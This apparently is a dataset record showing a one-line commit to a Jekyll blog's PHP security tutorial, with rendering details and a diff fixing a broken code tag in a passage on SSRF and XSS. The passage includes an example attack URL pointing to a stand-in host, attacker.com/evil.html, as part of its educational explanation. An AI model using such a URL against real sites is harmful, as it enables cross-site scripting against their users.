

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 11144 px, cut to the strip 232-900 px from the top of the window. Shown: the whole strip, without its empty margins (108-1170 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; after the commit the page ends 12015 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -222,6 +222,6 @@
 
 SSRF is not as easy to fix as the previous vulnerabilities we talked about; there's not a certain function to fix it. The best would be if the application wouldn't allow users to provide URLs, but if the application must work like that, then there are other ways to prevent that. You can try "whitelisting" stuff, which means adding certain URLs and locations that are allowed to be supplied and everything else is not. While we are at it, almost never do "blacklisting" (its meaning is opposite of whitelisting,  those things that you list are forbidden and everything else isn't) to try to fix any of these vulnerabilities, because almost always sooner or later a bypass will be found for that. An extra step of taking care is not accepting other protocols/schemas than the ones needed.
 
-If you've payed attention in this blog you maybe will guess which vulnerability is present in that picture above aside from SSRF? If you've guessed XSS, that's correct. In this case an attacker can just upload a <code>.html>/code> with his malicious client-side code and send it like this <code>http://example.com/?image=http://attacker.com/evil.html</code><br><br>
+If you've payed attention in this blog you maybe will guess which vulnerability is present in that picture above aside from SSRF? If you've guessed XSS, that's correct. In this case an attacker can just upload a <code>.html</code> with his malicious client-side code and send it like this <code>http://example.com/?image=http://attacker.com/evil.html</code><br><br>
 
 ## Remote Code Execution(RCE) & Command Injection
```
